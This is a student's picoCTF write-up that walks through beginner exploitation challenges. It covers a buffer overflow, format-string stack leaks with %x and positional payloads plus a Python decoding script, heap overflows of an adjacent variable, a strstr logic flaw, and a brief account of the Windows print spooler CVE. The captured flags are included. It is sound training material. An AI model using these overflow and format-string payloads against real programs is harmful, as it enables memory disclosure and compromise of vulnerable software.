




## buffer overflow 0

Flag: ```picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}```
Hints used: NONE

in this chal, i gave a long string as an input ```11111111111111111111111111``` which gave me the flag. 
giving an input of ```111``` exited the program. however, when i inputted ```aaaaaaaaaaaaaaaaaaaaaaaaaaaa``` there 
was no output, and i had to press ```enter``` to exit the code.

after looking at the source code, there was a vulnerability for char greater than 16, however entering 17 chars didnt give me the flag, it took 20 chars to get the flag.
tried to understand the code but since i dont know c properly(skill issue), i cant really decode the script.

## format string 0

Flag: ```picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}```
Hints used: NONE

the obvious choices were the ones with ```%``` in them, since they're used to format strings/output in C.
however after looking at the source_code, things made more sense.
in the first problem, input needs to have integers more than the buffer size set(32 bits)
```count > 2 * BUFSIZE```, since 1 int == 32 bits and ```Gr%114d_Cheese``` has 3 integers, that passes the value.
in the second problem, it is just looking for an integer formatting style, ie ```%s```, so ```Cla%sic_Che%s%steak``` gives me the flag.

qn for the mentor: why did the program return ```ClaCla%sic_Che%s%steakic_Che(null)``` in the end?

attaching the image for reference.


## flag-leak

Flag: ```picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}```

Hints used: Youtube

This was by far, the hardest challenge i came across in all of the mandatory challenges.

In the code(vuln.c), line 32 => ```printf(story);```, there is a string formatting vulnerablilty, which means if i give an % identifier input, i can see everything on the stack.

So i made a python file wherein i made little tweaks, to give a proper input in the .c code.

I gave an input of 32 ```%x.``` and got an output of ```ffebc810.ffebc830.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.```


then i split the output using python(```ffebc810 ffebc830 8049346 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 78252e78 2e78252e 252e7825 252e78 6f636970 7b465443 6b34334c 5f676e31 67346c46 6666305f 3474535f ```)
i converted ```6f636970 7b465443 6b34334c 5f676e31 67346c46 6666305f 3474535f``` because that is where the hex code changes.

output=>


since this is just half the flag, i counted the number from where the hex coded changed, which was 36.

therefore i wrote another script for giving the input as ```%36$x.%37$x......``` and so on.

from there, i got an output ```%36$x.%37$x.%38$x.%39$x.%40$x.%41$x.%42$x.%43$x.%44$x.%45$x.617}5f60ck_9_St4_0ffFl4g1ng_L34kCTF{pico``` which when reversed, although took some manual work, gave me the flag.

here is the python code i wrote to automate some of the tasks.


```
lst = "ffebc810.ffebc830.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.".split('.')

s = ' '.join(lst)

print(s)

for i in range(36,46):
    x = '%'+str(i)+'$x'
    print(x, end='.') 


flag = 'ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716'[::-1]

print(flag)

'5f60ck_9_St4_0ffFl4g1ng_L34kCTF{pico'
'picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}'
```

# EXTRA CHALS

## Stonks{MEDIUM}

Flag: ```picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}```

Hints Used: NONE

this chal was similar to the last one, flag leak. i was given a vuln.c file to check for any vulnerarabilities locally since the binary was hosted online.

the program was menu-based, having 2 different functions for each menu, and the vuln was in the first func, ```buystonks```
```printf(buystonks)```, format string vuln


to access the stack, i gave an input of 20-40 ```%x.``` and got some hexoutput, which i separated and joined using python.
```
9b983d0804b00080489c3f7f8bd80ffffffff19b96160f7f99110f7f8bdc709b9718019b983b09b983d06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3534303664303664ffc1007df7fc6af8f7f99440c724c60010f7e28ce9f7f9a0c0f7f8b5c0f7f8b000ffc17368f7e1968df7f8b5c08048ecaffc173740f7fadf09804b000f7f8b000f7f8be20ffc173a8f7fb3d50f7f8c890c724c600f7f8b000804b000ffc173a88048c869b96160ffc17394ffc173a88048be9f7f8b3fc0ffc1745cffc17454119b96160c724c600ffc173c000f7dcefa1f7f8b000f7f8b0000f7dcefa11ffc17454ffc1745cffc173e410f7f8b000f7fae70af7fc60000f7f8b0000089f0e051b2c9a6410001
```

i put this output in cyberchef and added swap endianness & hex decoder.


removing the first 4 chars/bits gave me the flag.



## basic-file-exploit{MEDIUM}

Flag: ```picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}```

Hints Used: NONE

in this chal, we were given a .c file, and i was supposed to find a vuln in the code itself.

code:
```
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <stdint.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60


static const char* flag = "[REDACTED]";

static char data[10][100];
static int input_lengths[10];
static int inputs = 0;


int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
    timeout.tv_sec = WAIT;    // WAIT seconds
    timeout.tv_usec = 0;    // 0 milliseconds

    /* Listening for input stream for any activity */
    ready_for_reading = select(1, &input_set, NULL, NULL, &timeout);
    /* Here, first parameter is number of FDs in the set, 
     * second is our FD set for reading,
     * third is the FD set in which any write activity needs to updated,
     * which is not required in this case. 
     * Fourth is timeout
     */

    if (ready_for_reading == -1) {
        /* Some error has occured in input */
        printf("Unable to read your input\n");
        return -1;
    } 

    if (ready_for_reading) {
        read_bytes = read(0, input, l-1);
        if(input[read_bytes-1]=='\n'){
        --read_bytes;
        input[read_bytes]='\0';
        }
        if(read_bytes==0){
            printf("No data given.\n");
            return -4;
        } else {
            return 0;
        }
    } else {
        printf("Timed out waiting for user input. Press Ctrl-C to disconnect\n");
        return -3;
    }

    return 0;
}


static void data_write() {
  char input[100];
  char len[4];
  long length;
  int r;
  
  printf("Please enter your data:\n");
  r = tgetinput(input, 100);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  while (true) {
    printf("Please enter the length of your data:\n");
    r = tgetinput(len, 4);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
  
    if ((length = strtol(len, NULL, 10)) == 0) {
      puts("Please put in a valid length");
    } else {
      break;
    }
  }

  if (inputs > 10) {
    inputs = 0;
  }

  strcpy(data[inputs], input);
  input_lengths[inputs] = length;

  printf("Your entry number is: %d\n", inputs + 1);
  inputs++;
}


static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}


int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```

since the code was 195 lines, and i was to lazy to read all of it, i just searched for flag in the code and found this snippet.

```
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
it basically states that if i can input 0 as an entry number, i should get the flag, since ```puts()``` will display the value of ```flag``` if condition is ```True```.

however, giving entry number as a string also gave me the flag.


(ref for me, lookup strtol manpage and find errors)

## CVE-XXXX-XXXX {MEDIUM}

Flag: ```picoCTF{CVE-2021-34527}```

Hints Used: NONE

This was technically not a challenge, since googling the vuln gave me the flag directly. 
Upon researching further, i found out that there exists a vulnerability in the windows print spooler service, a program that manages, schedules, stores and accepts printing jobs.

the vuln was that a remote code execution could make the spooler service improperly perform priviledged file options. so if an attacker exploits this vuln, they can use the system with su(or in windows, ADMIN) priviledges and install programs, view/change data etc.

this patch was fixed since microsoft announced the vuln by themselves.


## RPS {MEDIUM}

Flag: ```picoCTF{50M3_3X7R3M3_1UCK_58F0F41B}```

Hints Used: 1

This challenge did not particularly use BinExp(i think?) since it was more targeted on how functions work in C.

in the source code, to check the win condition, the function used was strstr, ```strstr(3p)man```

```
DESCRIPTION
       The functionality described on this reference page is aligned with the ISO C standard. Any conflict between the requirements described
       here and the ISO C standard is unintentional. This volume of POSIX.1‐2017 defers to the ISO C standard.

       The strstr() function shall locate the first occurrence in the string pointed to by s1 of the sequence of bytes (excluding the  termi‐
       nating NUL character) in the string pointed to by s2.

RETURN VALUE
       Upon successful completion, strstr() shall return a pointer to the located string or a null pointer if the string is not found.

       If s2 points to a string with zero length, the function shall return s1.
```

```
  if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
  } else {
    puts("Seems like you didn't win this time. Play again?");
    return false;
  }
}
```

therefore to get the flag, there needs to be an occurence of string2 in string1.
so i gave the input => ```rockpaperscissors```, since one of them will always win.

as the win condition was >=5, i ran it 5 times and got the flag. on the other hand, i could've ran a script in bash and automated the process but i got the flag nonetheless.

output: 
```
Welcome challenger to the game of Rock, Paper, Scissors
For anyone that beats me 5 times in a row, I will offer up a flag I found
Are you ready?
Type '1' to play a game
Type '2' to exit the program
1   
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: scissors
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: paper
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: scissors
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: rock
You win! Play again?
Congrats, here's the flag!
picoCTF{50M3_3X7R3M3_1UCK_58F0F41B}
Type '1' to play a game
Type '2' to exit the program
```

## heap0 {easy}

Flag: ```picoCTF{my_first_heap_overflow_4fa6dd49}```

Hints Used: NONE

this challenge looked daunting when i opened the binary, but as soon as i went through the code, i figured out the solution.

in the code, there was a check_win() func:

```
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

here, the buf is declared as FLAGSIZE_MAX, which was defined as 64 in the code.

so i sent an input of 64 A's and got the flag.

Edit: so i googled the chal to find the optimal solution, and i realized that i could overflow the heap by giving 32+1 A's as well.

the logic for that was the difference between the 2 addresses was 32, therefore anything exceeding that would overflow the next variable.

```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x60dfd8fea6b0  ->   pico
+-------------+----------------+
[*]   0x60dfd8fea6d0  ->   bico
+-------------+----------------+
```

addr(pico)-addr(bico) => 0x20 or (32)base_10.

## heap 1 {MEDIUM}

Flag: ```picoCTF{starting_to_get_the_hang_21306688}```

Hints Used: NONE

it was similar to last challenge, the only difference was in the win condition

```
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

the program was just comparing strings(safe_var, 'pico'), since the difference between the 2 addresses was same from the last chal, to get pico, i had to overflow the heap by 32chars first, and then add pico at the end of the input.

therefore, i gave the input => ```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico``` which gave me the flag.

```
Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x61339265d2b0  ->   pico
+-------------+----------------+
[*]   0x61339265d2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = pico


1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_21306688}
```


